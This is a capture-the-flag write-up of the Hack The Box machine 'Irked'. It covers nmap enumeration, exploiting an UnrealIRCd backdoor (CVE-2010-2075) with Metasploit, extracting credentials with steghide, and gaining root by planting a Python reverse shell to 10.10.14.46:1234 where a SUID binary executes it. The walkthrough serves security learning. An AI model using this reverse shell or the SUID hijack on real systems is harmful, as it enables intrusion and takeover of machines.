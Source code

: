 # Irked

> Nashia Holloway | May 16th, 2020

## Enumeration

SSH and port 80.

![](web.png)

We have a hint that there's an IRC server running, but it didn't come up in the initial scan. We need a more thorough one: `sudo nmap -p- -sV $IP -oN ports.nmap`.

![](ports.png)

The IRC server is running on port `6697`. Reading [this IRC guide](https://www.offensive-security.com/offsec-irc-guide/), there's a tool in Kali called `HexChat` that lets you connect to IRC servers.

```
sudo apt-get install hexchat
```

We know from running `nmap -sC -sV -p 6697 10.10.10.117`, what the hostname is.

![](irked.png)

Now to open and configure hexchat.

![](hexchat.png)

From here, we can see what version is running: `3.2.8.1`.

![](hexchat_ver.png)

## Initial Access

There's a CVE available (CVE-2010-2075) as well as a metasploit module we can use: `exploit/unix/irc/unreal_ircd_3281_backdoor`. We have a shell and the user flag is under the Djmardov user, but we don't have permission to view it. We do, however, have permission to view the `.backup` file, which gives us a password for a steg file.

![](backup.png)

```
password: UPupDOWNdownLRlrBAbaSSss
```

The only picture I've seen was on the website.

```
wget http://10.10.10.117/irked.jpg
```

```
sudo apt-get install steghide
```

```
steghide extract -sf irked.jpg
```

We are given a password presumably for the Djmardov user. We need to login somewhere with it.

![](steghide.png)

```
djmardov:Kab6h+m+bbp2J:HG
```

From our initial nmap scan, we know SSH is open. Trying that, it works. We can now read the user flag.

## Privilege Escalation

```
find / -perm -u=s -type f 2>/dev/null
```

![](su.png)

After some research, it looks like the `/usr/bin/viewuser` program isn't normal. Running it, we see it's a program that tests and sets user permissions. It looks like it's recorded the IP I'm using to login as Djmardov.

![](viewuser.png)

It also says "/tmp/listusers: not found". We could probably hijack this to get a root shell. Let's put a reverse shell within `/tmp/listusers`.

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.46",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

I transferred the file via python web server, and changed it so it can run, then ran the viewuser binary to execute, giving me a root shell on the nc listener I had set up. Was able to get root flag.
